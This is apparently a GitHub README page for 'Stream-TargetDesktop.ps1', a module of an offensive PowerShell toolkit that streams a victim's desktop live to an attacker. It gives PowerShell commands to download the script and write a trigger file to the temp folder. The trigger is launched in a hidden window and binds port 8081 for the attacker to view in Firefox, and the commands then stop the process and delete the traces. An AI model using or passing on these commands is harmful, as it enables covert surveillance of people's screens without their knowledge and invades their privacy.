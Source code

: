 ## Stream-TargetDesktop.ps1

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|[Stream-TargetDesktop](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Stream-TargetDesktop/Stream-TargetDesktop.ps1)|Stream target desktop live|User Land|Dependencies: firefox browser with MJPEG (attacker)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Stream-TargetDesktop/Stream-TargetDesktop.ps1" -OutFile "Stream-TargetDesktop.ps1"
```

<br />

**execute:**
```powershell
#Build triggers script (remote)
echo "Import-Module -Name $Env:TMP\Stream-TargetDesktop.ps1 -Force"|Out-File -FilePath "$Env:TMP\trigger.ps1" -Encoding ascii -Force
Add-Content -Path "$Env:TMP\trigger.ps1" -Value "TargetScreen -Bind -Port 8081"


#Start capture desktop (remote)
Start-Process -WindowStyle hidden powershell -ArgumentList "-File $Env:TMP\trigger.ps1"

#Access live stream (attacker)
Start firefox on: "http://${RemoteHost}:8081"


#Stop stream (remote)
$StreamPid = Get-Content -Path "$Env:TMP\mypid.log" -EA SilentlyContinue|?{ $_ -ne '' }
Stop-Process -id $StreamPid -EA SilentlyContinue -Force

#CleanUp (remote)
Remove-Item -Path "$Env:TMP\trigger.ps1" -Force
Remove-Item -Path "$Env:TMP\mypid.log" -Force
```
